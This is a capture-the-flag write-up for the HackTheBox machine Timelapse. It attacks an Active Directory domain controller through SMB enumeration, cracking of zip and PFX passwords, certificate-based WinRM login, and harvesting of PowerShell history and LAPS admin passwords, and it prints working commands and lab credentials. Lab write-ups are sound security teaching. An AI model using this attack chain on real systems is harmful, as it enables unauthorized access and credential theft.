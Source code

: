 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available.

Using ```rpcclient``` we see what privileges the current users has.
```
rpcclient -U '' -N 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/5.png">

Unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 
```
smbclient -N -L //10.10.11.152/
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/2.png">



# Initial Foothold
Extracting the zipfile requires a password. We can use ```7z``` to get more information on the zipfile and it's encryption.

```
7z l -slt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/3.png">


We can try to crack the password using ```john``` or ```fcrackzip```. In this case I chose the latter.

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/4.png">


We have cracked the password and can now extract ```legacyy_dev_auth.pfx```.

A PFX file indicates a certificate in PKCS#12 format; it contains the certificate, the intermediate authority certificate necessary for the trustworthiness of the certificate, and the private key to the certificate. Think of it as an archive that stores everything you need to deploy a certificate.

I had to update ```john``` in order to have ```pfx2john``` available and run the following command to create a suitable hash for ```john```.

```
pfx2john legacy_dev_auth.pfx > hash
```

And pass it along to ```john```:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/6.png">

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one can extract the private key and certificate from a pfx file.

Extract the private key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/7.png">

And we do the same for the certificate:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evil-winrm``` .

```
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/8.png">

# Lateral Movement
We are unable to use ```winPEAS``` because Microsoft Defender is blocking the file. Using an obfuscated version didn't help either. After further enumerating the host for the usual ways for privilege escalation I was unable to find anything useful. I tried running Powershell scripts but without any luck. I got some help pointing me in the right direction and found the Powershell history file:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/9.png">

We found the password for the ```svc_deploy``` account and can use this to run commands as the this user.

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

And we can check for privileges:
```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /priv}

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/10.png">


# Privilege Escalation
We see that this user is member of the ```LAPS_Readers``` group which is useful to us because we can probably extract the local administrator password. We can check this by using the ```AD-Module```.

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/11.png">

Now that we've found the password we can again use ```evil-winrm``` to connect to the target as ```administrator```.

```
evil-winrm -i 10.10.11.152 -u administrator -p '6yHTPR#s417Lo6/7kC{aP!WC' 
```






